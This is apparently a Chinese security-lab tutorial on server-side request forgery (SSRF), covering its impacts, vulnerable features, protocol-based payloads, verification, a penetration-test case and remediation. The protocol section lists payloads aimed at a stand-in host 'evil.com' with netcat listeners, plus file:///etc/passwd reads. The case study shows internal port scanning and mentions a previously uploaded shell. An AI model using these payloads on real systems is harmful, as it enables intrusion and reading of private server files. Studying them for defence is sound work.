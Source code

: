 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/pop\_rIIYMrAwi0ifUMl5uQ)

点击上方 “蓝字” 关注公众号获取最新信息!

> 本文作者：梭哈王、小米粥（贝塔安全实验室 - 核心成员）

* * *

By：梭哈王、小米粥

参考文章:

https://xz.aliyun.com/t/2115#toc-2

https://\_thorns.gitbooks.io/sec/content/ssrf\_tips.html

**一：****漏洞概念**

SSRF 全称为 Server-side Request Fogery, 中文含义为服务器端请求伪造，漏洞产生的原因是服务端提供了能够从其他服务器应用获取数据的功能，比如从指定的 URL 地址获取网页内容，加载指定地址的图片、数据、下载等等。

一般情况下，我们服务端请求的目标都是与该请求服务器处于同一内网的资源服务，但是如果没有对这个请求的目标地址、文件等做充足的过滤和限制，攻击者可通过篡改这个请求的目标地址来进行伪造请求，所以这个漏洞名字也叫作 “服务器请求伪造”。

  

**二：漏洞危害**

1、可以对服务器所在的内网、本地进行端口扫描，获取一些服务的 banner 信息

2、攻击运行在内网或本地的应用程序（比如溢出）

3、对内网 web 应用进行指纹识别，通过访问应用存在的默认文件实现；

4、攻击内外网的 web 应用，主要是使用 get 参数就可以实现的攻击（比如 struts2 漏洞利用等）

5、利用 file 协议读取本地文件

6、利用 Redis 未授权访问，HTTP CRLF 注入达到 getshell

7、DOS 攻击（请求大文件，始终保持连接 keep alive always）等等

**三：****漏洞出现点**  

1、 通过 url 地址分享网页内容功能处

2、转码服务

3、在线翻译

4、图片加载与下载 (一般通过 url 地址加载或下载图片处)

5、图片、文章收藏功能

6、未公开的 api 实现以及其他调用 url 的功能

7、云服务器商 (它会远程执行一些命令来判断网站是否存活等，所以如果可以捕获相应的信息，就可以进行 ssrf 测试)

8、有远程图片加载的地方 (编辑器之类的远程图片加载处)

9、网站采集、网页抓取的地方 (一些网站会针对你输入的 url 进行一些信息采集工作)

10、头像处 (某易就喜欢远程加载头像，例如: http://www.xxxx.com/image?url=http://www.image.com/1.jpg)

11、邮件系统 (比如接收邮件服务器地址)

12、编码处理, 属性信息处理，文件处理 (比如 ffpmg，ImageMagick，docx，pdf，xml 处理器等)

13、从远程服务器请求资源（upload from url 如 discuz！；import & expost rss feed 如 web blog；使用了 xml 引擎对象的地方 如 wordpress xmlrpc.php）

**四：****SSRF 利用支持协议以及利用方式**

1、sftp  

```
sftp(http://xxx.com/ssrf.php?url=sftp://evil.com:11111/   evil.com:$ nc -v -l 11111
Connection from \[192.168.0.10\] port 11111 \[tcp/\*\] accepted (family 2, sport 36136)
SSH-2.0-libssh2\_1.4.2
)
```

2、gopher

```
gopher(http://xxx.com/ssrf.php?url=http://evil.com/gopher.php
<?php
header('Location: gopher://evil.com:12346/\_HI%0AMultiline%0Atest');
?>
evil.com:# nc -v -l 12346
Listening on \[0.0.0.0\] (family 0, port 12346)
Connection from \[192.168.0.10\] port 12346 \[tcp/\*\] accepted (family 2, sport 49398)
HI
Multiline
test)
```

3、dict

```
dict(http://xxx.com/ssrf.php?dict://attacker:11111/  evil.com:$ nc -v -l 11111
Connection from \[192.168.0.10\] port 11111 \[tcp/\*\] accepted (family 2, sport 36136)
CLIENT libcurl 7.40.0)
```

4、file

```
file(http://xxx.com/redirect.php?url=file:///etc/passwd)
```

5、tftp

```
tftp(http://xxx.com/ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET evil.com:# nc -v -u -l 12346
Listening on \[0.0.0.0\] (family 0, port 12346)
TESTUDPPACKEToctettsize0blksize512timeout)
)
```

6、http/https

```
http/https(http://safebuff.com/redirect.php?url=http://ip:port)
```

7、ldap

```
ldap(http://xxxx.com/redirect.php?url=ldap://localhost:11211/%0astats%0aquit)
```

‍

**五：****漏洞验证**  

1、排除法：浏览器 f12 查看源代码看是否是在本地进行了请求

比如：该资源地址类型为 http://www.xxx.com/a.php?image=URL,URL 参数若是其他服务器地址就可能存在 SSRF 漏洞

2、dnslog 等工具进行测试，看是否被访问 (可以在盲打后台，用例中将当前准备请求的 url 和参数编码成 base64，这样盲打后台解码后就知道是哪台机器哪个 cgi 触发的请求)

3、抓包分析发送的请求是不是通过服务器发送的，如果不是客户端发出的请求，则有可能是存在漏洞。接着找存在 HTTP 服务的内网地址

3.1、从漏洞平台中的历史漏洞寻找泄漏的存在 web 应用内网地址

3.2、通过二级域名暴力猜解工具模糊猜测内网地址

3.3、通过 file 协议读取内网信息获取相关地址

4、直接返回的 Banner、title、content 等信息

5、留意布尔型 SSRF，通过判断两次不同请求结果的差异来判断是否存在 SSRF，类似布尔型 sql 盲注方法。

**六：****漏洞案例**  

1）在一次进入系统后台测试过程中，存在一处创建工单的功能。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9ql1HIszCIcKFnbhgOqaeWzVonzbRLtso7zCR3u8L4p4iburJ56KMZfMsrm7pqTyDYSGRYCVfqE3USQ/640?wx_fmt=png)

2）创建完工单如下所示:

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9ql1HIszCIcKFnbhgOqaeWzVZJdo9LL39elicbfLeN19TZMRedz2IRxdl3LicTzuNO4HeosPFUib4jtrg/640?wx_fmt=png)

3）我们点击我们工单上传的文件，点击查看文件，发现 filename 参数指向内网的 10.180.103.x 的服务器资源，猜测应该是存在 ssrf 漏洞，访问几个已知存在的内网资源 (10.180.163 网段之前测试有 shell 上传了，所以只要该处能访问我的 shell 上传的文件即可判断)，实测有效。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9ql1HIszCIcKFnbhgOqaeWzVIMBicedQIGq9gVicHN4x0LqZBhbtPIFlbfDiaj60ictoTy6UmdbM9fQDNw/640?wx_fmt=png)

4）利用 file 协议读取服务器的 / etc/passwd 文件。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9ql1HIszCIcKFnbhgOqaeWzV3vgwHm6qFTEv2CdQr93mVSryZaocicZoQgOStud6NtVICUXzpvN2FEw/640?wx_fmt=png)

5）利用 file 协议读取文件目录。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9ql1HIszCIcKFnbhgOqaeWzVqo2j4IgjicFdicW4vKyicxwlbUicRFa5IaQCtHPFibHkFFf7UTLX66OeBNw/640?wx_fmt=png)

6）利用 http 协议探测内网端口开放信息：

filename=http://127.0.0.1:21(22 等等端口)，对端口进行扫描。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9ql1HIszCIcKFnbhgOqaeWzVDYktMAia5sV0Pjxpjh3sD4HmFTWUv9UGMf1mQQhcccoxPdU2fRoEnSw/640?wx_fmt=png)

**七：****漏洞修复**  

1、过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果 web 应用是去获取某一种类型的文件，那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。

2、禁用不需要的协议，仅仅允许 http 和 https 请求。可以防止 file/gopher/dict 等协议引起的问题

3、设置 URL 白名单或者限制内网 IP（使用 gethostbyname() 判断是否为内网 IP）

4、限制请求的端口为 http 常用的端口，比如 80、443、8080、8090

5、统一配置错误信息，避免用户可以根据错误信息来判断远程服务器的端口状态。

****![](https://mmbiz.qpic.cn/mmbiz_png/83e7tQTo0wPqZBQGoIee5SUPvSghllp2hRZ6cX9rViaT6ibibciaiamMicNoVsmAqgwhbQ2vvvq7eSGxTlX0g6qEFVaw/640?wx_fmt=png)****

↑↑↑**长按**图片**识别二维码**关註↑↑↑